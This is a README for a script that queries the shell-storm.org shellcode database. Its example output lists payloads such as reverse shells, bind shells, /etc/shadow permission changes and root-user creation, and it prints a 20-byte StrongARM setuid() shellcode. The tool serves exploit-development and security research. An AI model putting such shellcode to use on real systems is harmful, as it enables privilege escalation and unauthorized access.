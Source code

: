 shell-storm API
===============

Search and display all shellcodes in shell-storm database.

* [Web Site Project](http://shell-storm.org/project/shell-storm-API/)


Usage
-----

<b>Syntax</b>

<pre>./shell-storm-api.py &lt;option&gt; &lt;arg&gt;</pre>

<b>Options</b>

<pre>
-search               Search shellcodes
-display              Display shellcode
-version              Display version
</pre>


Example
-------

<pre>
$ ./shell-storm-api.py -search arm
Connecting to shell-storm.org...
Found 23 shellcodes
ScId	Title
[821]	Linux/ARM - reverse_shell(tcp,10.1.1.2,0x1337)
[820]	Linux/ARM - chmod(/etc/shadow, 0777) - 41 bytes
[819]	Linux/ARM - execve(/bin/sh, [0], [0 vars]) - 30 bytes
[765]	Linux/x86 - /etc/init.d/apparmor teardown - 53 bytes
[754]	Linux/ARM - connect back /bin/sh. 79 bytes
[735]	Linux/ARM - add root user with password - 151 bytes
[730]	Linux/ARM - Bindshell port 0x1337
[729]	Linux/ARM - Bind Connect UDP Port 68
[728]	Linux/ARM - Loader Port 0x1337
[727]	Linux/ARM - ifconfig eth0 and Assign Address
[698]	Linux/ARM - execve(/bin/sh, [0], [0 vars]) - 27 bytes
[696]	Linux/ARM - execve(/bin/sh,NULL,0) - 31 bytes
[696]	Linux/ARM - execve(/bin/sh,NULL,0) - 31 bytes
[671]	Linux/ARM - Polymorphic execve("/bin/sh", ["/bin/sh"], NULL); - XOR 88 encoded - 78 bytes
[670]	Linux/ARM - polymorphic chmod(/etc/shadow, 0777) - 84 Bytes
[669]	Linux/ARM - Disable ASLR Security - 102 bytes
[668]	Linux/ARM - chmod(/etc/shadow, 0777) Shellcode - 35 Bytes
[667]	Linux/ARM - Kill all processes (with/without _setuid) - 28 bytes
[666]	Linux/ARM - setuid(0) & execve(/bin/sh, /bin/sh, 0) - 38 bytes
[665]	Linux/ARM - execve(/bin/sh, /bin/sh, 0) - 30 bytes
[661]	Linux/StrongARM - bind() portshell - 203 bytes
[660]	Linux/StrongARM - setuid() - 20 bytes
[659]	Linux/StrongARM - execve() - 47 bytes
$
</pre>


<pre>
$ ./shell-storm-api.py -display 660
Connecting to shell-storm.org...

/*
 * 20 byte StrongARM/Linux setuid() shellcode
 * funkysh
 */

char shellcode[]= "\x02\x20\x42\xe0"   /*  sub   r2, r2, r2            */
                  "\x04\x10\x8f\xe2"   /*  add   r1, pc, #4            */
                  "\x12\x02\xa0\xe1"   /*  mov   r0, r2, lsl r2        */
                  "\x01\x20\xc1\xe5"   /*  strb  r2, [r1, #1]          */
                  "\x17\x0b\x90\xef";  /*  swi   0x90ff17              */



$
</pre>

